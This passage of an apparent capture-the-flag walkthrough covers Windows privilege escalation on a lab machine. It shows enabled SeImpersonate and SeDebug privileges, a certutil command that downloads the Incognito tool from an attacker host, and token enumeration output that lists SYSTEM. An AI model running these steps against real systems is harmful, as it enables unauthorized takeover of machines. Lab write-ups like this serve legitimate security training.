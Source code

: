 
Examining the results we can see that two interesting privileges are enabled:

```shell
SeImpersonatePrivilege
SeDebugPrivilege
```

Doing some research, we found an exploit called Incognito. To use this exploit, the user needs to have both SeImpersonatePrivilege and SeDebugPrivilege enabled.

Lets do this without Metasploit:

```shell
# Get incognito.exe
git clone https://github.com/milkdevil/incognito2.git
cd incognito2

# Move incognito.exe to the target
certutil.exe -urlcache -split -f http://10.11.113.193:80/incognito.exe
```

Use incognito.exe to enumerate the tokens:

```shell
.\incognito.exe list_tokens -u
```

```shell
[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Listing unique users found

Delegation Tokens Available
============================================
alfred\bruce 
IIS APPPOOL\DefaultAppPool 
NT AUTHORITY\IUSR 
NT AUTHORITY\LOCAL SERVICE 
NT AUTHORITY\NETWORK SERVICE 
NT AUTHORITY\SYSTEM 

Impersonation Tokens Available
============================================
NT AUTHORITY\ANONYMOUS LOGON 

Administrative Privileges Available
============================================
SeAssignPrimaryTokenPrivilege
SeCreateTokenPrivilege
SeTcbPrivilege
SeTakeOwnershipPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeRelabelPrivilege
SeLoadDriverPrivilege
```
